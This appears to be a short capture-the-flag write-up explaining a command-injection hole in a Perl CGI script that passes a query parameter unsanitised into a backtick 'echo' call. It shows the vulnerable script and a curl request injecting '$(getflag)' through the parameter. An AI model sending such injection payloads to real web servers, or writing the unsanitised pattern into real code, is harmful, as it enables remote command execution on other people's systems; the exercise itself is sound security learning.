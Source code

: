 At the user's home, there is a .pl file:

```perl
  use CGI qw{param};
  print "Content-type: text/html\n\n";
  sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
  }
  x(param("x"));
```

In Perl, CGI (Common Gateway Interface) is a protocol for executing scripts via web requests. 
This script prints the first query parameter x -> $_[0] to the standard output using the system `echo`.

However, during the substitution of the variable $y, there is no sanitization. By adding `$(getflag)` i can use the command substitution
to execute a command and give the result to echo.

I send it with the curl command:
```bash
curl 'http://localhost:4747/?x=$(getflag)'
```
